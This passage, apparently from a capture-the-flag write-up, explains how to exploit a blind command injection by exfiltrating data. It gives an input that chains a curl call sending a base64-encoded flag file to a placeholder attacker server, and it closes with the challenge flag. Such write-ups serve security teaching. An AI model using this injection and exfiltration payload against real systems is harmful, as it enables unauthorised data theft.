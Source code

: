 ![](./images/4.PNG)

Since it only returns a decimal value as the output, any command injection vulnerability will be "blind" so we will need to find a way to exfiltrate data.

One common way to do this is to find a writeable web directory, write the command output (or copy files), and browse them directly.

Another option is using standard tools to return the data, e.g., `curl`. The following input will convert the flag to base64 (so we don't lose special characters) and then make a HTTP request to our attacker server, with that encoded value as a GET parameter.

{% code overflow="wrap" %}
```bash
hi; curl https://ATTACKER_SERVER?lol=$(cat flag.txt | base64)
```
{% endcode %}

We can recheck our server logs to find the base64 encoded flag 🙂

Flag: `CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`
